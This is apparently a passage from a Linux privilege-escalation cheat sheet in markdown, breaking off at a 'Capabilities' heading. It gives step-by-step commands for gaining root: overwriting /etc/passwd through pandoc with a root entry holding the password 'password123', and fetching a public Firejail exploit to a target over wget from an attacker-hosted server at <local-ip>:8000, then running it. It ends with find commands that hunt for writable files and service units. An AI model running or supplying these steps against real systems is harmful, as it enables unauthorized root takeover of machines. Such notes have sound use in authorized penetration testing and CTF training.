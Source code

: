 ### Pandoc

1. Copy **`/etc/passwd`** and Update the Root Line

```bash
cp /etc/passwd .
vim passwd
```

Then update  **"root:x:..."** to **"root:password123:..."**.

2. Replace with Our New Passwd File

Using **`pandoc`** command, we can replace the original **`/etc/passwd`** with our updated **`passwd`** file.

```sh
pandoc ./passwd -t plain -o /etc/passwd
```

Now we can login as root using new password.

```bash
su root
Password: password123
```

### Firejail

[This exploit](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) is useful.

```bash
# Download it in local machine
wget https://www.openwall.com/lists/oss-security/2022/06/08/10/1 -O exploit.py

# Transfer it to target machine
wget http://<local-ip>:8000/exploit.py
python3 exploit.py &
firejail --join=<PID>
su -
```

<br />

## Writable Directories & Files

```sh
# Writable directories
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u

# System service files
find / -writable -name "*.service" 2>/dev/null
```

<br />

## Capabilities
